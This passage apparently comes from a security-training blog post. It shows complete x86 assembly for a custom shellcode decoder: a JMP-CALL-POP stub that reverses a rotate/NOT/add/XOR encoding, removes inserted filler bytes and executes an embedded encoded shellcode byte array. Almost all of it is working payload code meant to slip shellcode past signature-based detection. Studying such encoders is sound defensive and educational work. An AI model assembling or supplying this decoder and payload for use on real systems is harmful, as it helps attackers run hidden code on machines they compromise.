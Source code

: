 The full assembly code which implements the custom decoder is shown below:

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
global _start

section .text

_start:
jmp short call_shellcode

init:
         pop esi       
         push esi       
         xor ebx, ebx  
         xor ecx, ecx   
         xor edx, edx   
         mov dl, len    
scheme:
        ;; apply the decode scheme
        rol byte [esi], 4 
        not byte [esi]   
        add byte [esi], 2    
        xor byte [esi], 0x2c 
        inc esi         
        cmp cl, dl      
        je prepare          
        inc cl         
        jmp short scheme 
prepare:
        pop esi                 
        lea edi, [esi +1]       
        xor eax, eax          
        mov al, 1               
        xor ecx, ecx           

remove_bytes:
        ;; apply the random bytes removal scheme        
        cmp cl, dl                     
        je EncodedShellcode            
        mov bl, byte [esi + eax + 1]    
        mov byte [edi], bl        
        inc edi                       
        inc cl                        
        add al, 2                       
        jmp short remove_bytes                

call_shellcode:
        call init
        EncodedShellcode: db 0x4e,0x8d,0x51,0xec,0x58,0xd9,0xdb,0x42,0xef,0xc5,0xef,0x16,0x2a,0xc8,0xdb,0x42,0xdb,0x96,0xef,0x8c,0x3b,0x29,0xcb,0x6e,0xfb,0xed,0xc5,0x7d,0x23,0xe4,0x58,0xc7,0xc5,0xd5,0x33,0x8b,0x28,0x79,0xc5,0x95,0x43,0x13,0x56,0xd3,0xad,0x49,0x02,0xc5,0x55,0x18
        len equ $-EncodedShellcode
</pre>
